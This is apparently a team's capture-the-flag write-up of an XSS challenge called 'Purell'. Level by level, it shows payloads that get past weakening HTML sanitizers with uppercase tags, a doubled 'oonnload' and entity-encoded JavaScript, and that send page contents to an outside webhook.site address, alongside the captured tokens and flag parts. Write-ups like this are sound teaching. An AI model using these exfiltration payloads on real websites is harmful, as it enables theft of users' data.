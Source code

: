 # Purell writeups
### Team: UIT.4KySiNguLam

![image](https://github.com/user-attachments/assets/a99b683f-1c1a-4944-b89c-730da9a7fb2e)

## Overview
- The web appear as below:

![image](https://github.com/user-attachments/assets/59ee94f0-8131-4532-8fdb-44ce4af27139)

- Click `level 0`, we are redirected to this:

![image](https://github.com/user-attachments/assets/4f974d5f-2359-4131-9373-a62860f89651)

- From this and the fact that there was an admin bot to which an URL could be reported, I understood it was an XSS challenge. I didn’t read much of the attached files since they contained almost the same information as the website.
## Vulnerrability
- Actually, the vulnerability is XSS (Cross-Site Scripting).
## Exploitation
1. Level 0
- At level 0, there is no filter: `Sanitizer: (html) => html`.
- This is payload redirect to my **webhook.site**:
```HTML
<script>
  fetch('https://webhook.site/33b405ba-8b20-497a-9aea-917e2f20cf85?content=' + encodeURIComponent(document.body.innerText));
</script>
```
![image](https://github.com/user-attachments/assets/5d8c9043-23a8-4f69-a1b0-b700e0c8c3fe)

- Admin token: purell-token{gu4u_of_exf1l}
- Part 1 of flag: lactf{1_4m_z3_

2. Level 1
- At level 1, Sanitizer: `(html) => html.includes('script') || html.length > 150 ? 'nuh-uh' : html`
- It filter 'script' and length must be less or equal 150. Ignore the lenght constraint, for 'script' filter we can use uppercase to bypass this.
```HTML
<SCRIPT>
fetch('https://webhook.site/33b405ba-8b20-497a-9aea-917e2f20cf85?content=' + encodeURIComponent(document.body.innerText));
</SCRIPT>
```
![image](https://github.com/user-attachments/assets/f543dba3-2f61-4c87-878a-91b694a3257b)

- Admin token: purell-token{scr7ptl355_m3n4c3}
- Part 2 of flag: b3s7_x40ss_

3. Level 2
- At level 2, Sanitizer: `(html) => html.includes('script') || html.includes('on') || html.length > 150 ? 'nuh-uh' : html`
- It filter 'script', 'on' and length of payload must be less or equal 150. This is my payload.
```HTML
<SCRIPT>d=document,new Image().src='//webhook.site/33b405ba-8b20-497a-9aea-917e2f20cf85?'+d.body.innerText</SCRIPT>
```

![image](https://github.com/user-attachments/assets/05743743-4b6f-4a5b-bf9f-c7ad9fb8c847)


- Admin token: 
- Part 3 of flag: h4nd_g34m_

4. Level 3
- At level 3, Sanitizer: `(html) => html.toLowerCase().replaceAll('script', '').replaceAll('on', '')`
- It filter payload by replace 'script' and 'on' in lowercase with ''. For this filter, I use HTML Entity Encoding and insert trick 'oonnload' to bypass `onload`, `onclick`, `onerror`, `script`. This is my payload.
```HTML
<svg oonnload="&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x3d;&#x27;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x77;&#x65;&#x62;&#x68;&#x6f;&#x6f;&#x6b;&#x2e;&#x73;&#x69;&#x74;&#x65;&#x2f;&#x33;&#x33;&#x62;&#x34;&#x30;&#x35;&#x62;&#x61;&#x2d;&#x38;&#x62;&#x32;&#x30;&#x2d;&#x34;&#x39;&#x37;&#x61;&#x2d;&#x39;&#x61;&#x65;&#x61;&#x2d;&#x39;&#x31;&#x37;&#x65;&#x32;&#x66;&#x32;&#x30;&#x63;&#x66;&#x38;&#x35;&#x3f;&#x66;&#x6c;&#x61;&#x67;&#x3d;&#x27;&#x2b;&#x64;&#x6f;&#x63;&#x75;&#x6d;&#x65;&#x6e;&#x74;&#x2e;&#x71;&#x75;&#x65;&#x72;&#x79;&#x53;&#x65;&#x6c;&#x65;&#x63;&#x74;&#x6f;&#x72;&#x28;&#x27;&#x2e;&#x66;&#x6c;&#x61;&#x67;&#x27;&#x29;&#x2e;&#x69;&#x6e;&#x6e;&#x65;&#x72;&#x54;&#x65;&#x78;&#x74;" />
```
